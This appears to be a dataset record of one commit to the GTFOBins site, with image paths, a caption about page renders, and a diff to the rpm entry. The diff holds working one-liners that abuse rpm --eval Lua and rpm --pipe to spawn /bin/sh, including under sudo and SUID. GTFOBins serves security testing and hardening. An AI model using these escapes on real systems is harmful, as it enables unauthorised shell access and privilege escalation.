

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rpm.md, in a window 1280 px wide. Shown: the whole page at 85% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1154 px from its top, so only the background shows below that.

Commit message:
Upgrade to shell

```diff
--- a/_gtfobins/rpm.md
+++ b/_gtfobins/rpm.md
@@ -2,12 +2,9 @@
 functions:
   shell:
     - code: rpm --eval '%{lua:os.execute("/bin/sh")}'
-  command:
-    - code: |
-            rpm --pipe '/bin/id > /tmp/result'
-            cat /tmp/result
+    - code: rpm --pipe '/bin/sh 0<&1'
   limited-suid:
-    - code: rpm --eval '%{lua:os.execute("/bin/sh")}'
+    - code: ./rpm --eval '%{lua:os.execute("/bin/sh")}'
   sudo:
     - code: sudo rpm --eval '%{lua:os.execute("/bin/sh")}'
     - description: |
```
